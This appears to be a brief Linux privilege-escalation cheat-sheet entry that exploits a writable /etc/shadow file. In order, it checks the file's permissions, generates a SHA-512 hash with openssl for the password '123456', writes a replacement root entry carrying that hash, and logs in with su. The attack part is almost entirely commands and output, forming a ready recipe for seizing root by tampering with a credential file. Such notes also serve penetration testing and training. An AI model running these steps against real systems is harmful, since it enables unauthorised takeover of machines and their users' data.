 ## What ?
File store password hashes for all users, only readable by root. Writable access allows replacing the root password.

### How to ?
Check permissions of `/etc/shadow`
```
ls -l /etc/shadow
```
Generate a password hash
```
openssl passwd -6 123456
$6$uT3p4rOa$w4dUIcdsz1u1mTtC1CjoJvU7pZX0kP1oBz69i4dJ4Qb5e6IvEm6CE0jFZB3snwC0cYq3INqodc0PHEDdP9d/

```
Replace root hash
```
root:$6$uT3p4rOa$w4dUIcdsz1u1mTtC1CjoJvU7pZX0kP1oBz69i4dJ4Qb5e6IvEm6CE0jFZB3snwC0cYq3INqodc0PHEDdP9d/:19000:0:99999:7:::
```
ROOT
```
su root
Password: 123456
```